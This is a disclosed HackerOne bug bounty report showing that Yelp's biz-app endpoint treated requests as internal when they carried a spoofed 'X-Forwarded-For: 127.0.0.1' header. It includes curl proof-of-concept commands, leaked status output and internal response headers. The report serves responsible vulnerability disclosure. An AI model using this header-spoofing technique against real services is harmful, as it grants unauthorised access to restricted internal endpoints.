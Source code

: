 # X-Forward-For Header allows to bypass access restrictions

## Report Details
- **Report ID**: 1011767
- **URL**: https://hackerone.com/reports/1011767
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-10-19T12:30:08.985Z
- **Disclosed**: 2020-10-26T18:22:01.346Z

## Reporter
- **Username**: parzel
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: yelp

## Vulnerability Information
## Summary:
If the "X-Forward-For: 127.0.0.1" header is used, it allows to bypass restrictions of the web application and access endpoints that are restricted otherwise. This allows for example to access the "Business Owner App backend API". The responding server thinks, he is accessed by an internal IP.

## Platform(s) Affected:
Website: https://biz-app.yelp.com

## Steps To Reproduce:
POC1:
```
➜  /tmp curl -k https://biz-app.yelp.com/status                                

{"error": {"id": "PredicateMismatch"}}%                                                                                                                                   
➜  /tmp curl -k https://biz-app.yelp.com/status -H "X-Forwarded-For: 127.0.0.1"

{"host": "biz--app-main--useast1-74dd77b89b-fgtdk", "health": {}, "mem_vsz": 1111.61328125, "mem_rss": 410.0, "pid": 91941, "uptime": 178784.86051034927, "version": null}
```

POC2:
```
➜  /tmp curl -k https://biz-app.yelp.com/swagger.json                                                                                                                                                                
{"error": {"id": "HTTPNotFound"}}%                                                                                                                                                                                   
➜  /tmp curl -k https://biz-app.yelp.com/swagger.json -H "X-Forwarded-For: 127.0.0.1"                                                                                                                                                                                                                                                                                                                            
█████
█████
███████
█████████
████
███
████
██████
█████████ 
██████████ [...]
```

The responding server thinks, it is accessed by an internal IP as can be seen in the headers:
```
HTTP/1.1 200 OK
Connection: close
server: openresty/1.13.6.2
content-type: application/json
x-b3-sampled: 0
x-is-internal-ip-address: true
x-zipkin-id: 2fce61c10ade1e32
x-routing-service: routing-main--useast1-d84b86b87-cwstn; site=biz_app
x-mode: ro
x-proxied: 10-65-64-83-useast1aprod
x-extlb: 10-65-64-83-useast1aprod
Accept-Ranges: bytes
Date: Mon, 19 Oct 2020 12:21:19 GMT
Via: 1.1 varnish
X-Served-By: cache-hhn4033-HHN
X-Cache: MISS
X-Cache-Hits: 0
Content-Length: 573093
```

## Impact

As the attacker is seen as having an internal IP he is able to access resources which should otherwise be restricted for him.

## Attachments
No attachments

